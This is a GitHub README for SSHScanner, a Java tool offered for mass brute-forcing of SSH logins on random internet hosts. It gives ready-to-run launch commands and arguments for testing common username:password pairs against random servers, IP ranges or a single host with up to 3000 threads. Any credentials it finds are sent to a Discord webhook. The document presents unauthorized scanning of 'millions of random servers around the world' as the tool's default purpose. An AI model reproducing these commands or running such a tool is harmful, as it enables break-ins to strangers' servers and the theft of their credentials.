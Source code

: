 ## Description
This tool scans random SSH servers around the world and it tests the most used passwords

## Developers

You can reuse SSHScanner but make sure you comply with the [LICENSE](https://github.com/thisisnzed/SSHScanner/blob/main/LICENSE).

### Maven

```xml
<dependencies>
    <dependency>
        <groupId>com.thisisnzed</groupId>
        <artifactId>SSHScanner</artifactId>
        <version>1.1.0-SNAPSHOT</version>
    </dependency>
</dependencies>
```

## Lib

* **JSch** : http://www.jcraft.com/jsch/ 

## Usage

* I. Download the [latest release](https://github.com/thisisnzed/SSHScanner/releases) of SSHScanner
* II. Launch the program 

## Launch

*Here are some examples of commands according to your need*

**Scan random SSH servers :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true
**Scan SSH range :** java -jar SSHScanner.jar -range range.txt -combo combo.txt -threads 3000 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose false
**Scan specific SSH server :** java -jar SSHScanner.jar -combo combo.txt -threads 1 -port 22 -timeout 6000 -webhook "https://discord.com/api/webhooks/x/y" -verbose true -host "127.0.0.1"


## Arguments

Note: Each argument is optional

* **-combo <path>** | File containing all the "user:password" that the program will test for each host (default: combo.txt)
* **-threads <int>** | Number of threads launched (default: 1)
* **-port <int>** | Port that will be tested for each host (default: 22)
* **-timeout <int>** | Time (in ms) before the program marks a server as unavailable (default: 6000)
* **-webhook <url>** | Discord webhook where credentials will be sent (default: "")
* **-verbose <boolean>** | Whether or not to display failed attempts on the console (default: true)
* **-host <IP address>** | **WARNING: Only for bruteforce specific host** | Use this parameter ONLY if you want to perform a bruteforce attack on a specific SSH server - if you use this parameter you only will attack the requested server and not millions of random servers around the world (default: "")
* **-range <path>** | **WARNING: Only for bruteforce specifics ranges** | Use this parameter ONLY if you want to perform a bruteforce attack on specifics SSH servers (by putting ranges) - if you use this parameter you only will attack the requested ranges and not millions of random servers around the world (default: "")

